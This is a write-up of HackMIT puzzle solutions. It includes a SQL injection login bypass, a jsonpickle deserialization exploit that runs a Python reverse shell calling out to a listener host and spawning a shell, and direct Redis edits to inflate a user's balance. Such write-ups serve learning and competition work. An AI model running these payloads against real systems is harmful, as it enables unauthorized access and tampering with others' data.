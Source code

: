 
# HackMIT Puzzles Solution

## Entrypoint: Get puzzle link
I have seen many solutions on how to get the puzzle link, our particular solution was simply to open the Google/Firefox developer tools and print the variable named puzzle_link
```js
console.log(puzzle_link)
```
The result of that code gave us the following link, which is the dashboard of the puzzle
```
https://my.hackwsb.net
```
## Puzzle 1: GET DA COOKIES 🍪 🍪 🍪
![Puzzle view](https://i.imgur.com/DWQigrY.png)

The solution to this puzzle was a SQL injection. To be able to log in with the administrator's password without having it, we had to use the typical injection where at the end of the SQL query we insert a new condition that will help the query to always be true.
```sql
'or '1'='1
```
After executing the code, the web page will change and a counter like the following will appear:
![First puzzle after bypassing admin password](https://i.imgur.com/OqqImP3.png)
Then you have to click the cookie 5000 times. But that is very boring and slow, so, just open the developer tools and look for the onclick property of the cookie (you will find the function increments the counter by one).

Having found the function we will do a typical for loop to call that function 5000 times

```js
for (let i = 0; i < 5000; i++)
	counter('loremipsum_000000', 'xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx')
```
Once we reach 5000 cookies, we simply open the developer console and find our key.
```
Your secret key is: 0000000000000000000000000000000000000000000000000000000000000000
```
## Puzzle 2: Beavercoin TO the mooon 🚀 🚀 🚀
![Preview of the puzzle](https://i.imgur.com/hwwb02T.png)

The idea behind this puzzle was to decrypt all the "tweets", each "tweet" had a positive or negative impact with respect to the market.

The decryption of the tweets was based on the following algorithms (All algorithms can be found in the repository respectively):
- Hexadecimal
- Bacon
- Beaufort

The procedure we followed as a team was to open a Google Sheet and start noting in tables which tweets had positive and negative impact.

After we had a considerable amount of tweets, we did the following:
- If the tweet affected negatively, we sold everything.
- If the tweet had a positive impact, we bought everything

After doing that approximately 14 times, it gave you the money to be able to buy the key.

## Puzzle 3: Double Agent on WSB


## Puzzle 4: How to become a millionare in 12736 easy steps
![Puzzle 4 preview](https://i.imgur.com/o4tCien.png)Well, the solution to this puzzle is totally different from what the creators of the puzzle expected. While solving the puzzle we realized that the ``jsonpickle`` library could be injected with Python code thanks to a vulnerability. 

The vulnerability was that when the JSON was decoded it would decode into an ``.eval()``, allowing us to execute arbitrary code from the server.

The code we decided to run was a reverse shell (running directly in Python):
```python
CODE = """
import socket, os, pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((SERVER_IP, 4242))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
pty.spawn("\\x2f" + "bin" + "\\x2f" + "sh")
""".strip().replace("\n", ";")
```

Before executing the code shown we had to have a netcat listener in order to receive the connection.

We could have used the following code on any Linux computer
```sh
nc -lvp 4242
```
Having access to the server, simply connect to the Redis server with the Telnet protocol
```sh
telnet 127.0.0.1 6379
```

Having access to the database, we select database 0 and ask for our user's data.
```sh
select 0
get loremipsum_000000
```
This will give us a JSON. When we do that we will change the value of our user for the one modified by us, which will have the necessary coins to pass the puzzle.

```sh
set loremipsum_000000 'HERE YOU SHOULD PLACE YOUR MODIFIED JSON'
```
Doing this procedure the only thing left to do would be to go to your ``exchange.py`` and donate to get the key.

## Puzzle 5: WE LOVE CHAD 🌙
